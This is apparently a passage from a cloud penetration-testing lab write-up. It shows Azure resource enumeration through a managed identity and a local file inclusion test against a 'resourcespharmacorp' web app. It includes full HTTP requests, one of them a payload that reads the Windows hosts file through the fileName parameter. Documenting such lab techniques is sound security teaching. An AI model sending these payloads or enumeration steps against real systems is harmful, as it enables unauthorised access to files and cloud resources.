- The auditor can now enumerate accessible Azure Resources to the Managed Identity.
```powershell
PS C:\Auditor> Get-AzResource


Name              : phcvaccinedata
ResourceGroupName : VaccineComposition
ResourceType      : Microsoft.DocumentDb/databaseAccounts
Location          : eastus
ResourceId        : /subscriptions/aac02f74-b0d2-45d2-8fbc-8d33f274116f/resourceGroups/VaccineComposition/providers/Microsoft.DocumentDb/databaseAccounts/phcvaccinedata
Tags              :
                    Name                     Value
                    =======================  ==========
                    hidden-cosmos-mmspecial
```

# App Service 2 Enumeration & Exploitation - `resourcespharmacorp`
- This web app has a `Download Brochure` function that once used gives the following result.
```http
%@ page language="java" contentType="text/html; charset=ISO-8859-1"
    pageEncoding="ISO-8859-1"%>

<snip>
```

- By intercepting the HTTP Request the auditor detects a URL parameter that directly calls the file system.
```http
POST /main?action=getData&fileName=downloadBrochure1.jsp HTTP/1.1
Host: resourcespharmacorp.azurewebsites.net
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://resourcespharmacorp.azurewebsites.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://resourcespharmacorp.azurewebsites.net/home.jsp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=6DE249AF0036CC43E0E01D4A9C9EC4C2; ARRAffinity=1331943e6af8ea95358449d5173946244504d36925f260085d3f167b036468e4
Connection: close


```

- The auditor can test the `fileName` URL parameter for possible LFI vulnerabilities, using the `C:\Windows\System32\drivers\etc\hosts` with forward slashes since this is a Java application. The final payload will be as bellow.
```http
POST /main?action=getData&fileName=C:/Windows/System32/drivers/etc/hosts HTTP/1.1
Host: resourcespharmacorp.azurewebsites.net
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://resourcespharmacorp.azurewebsites.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
```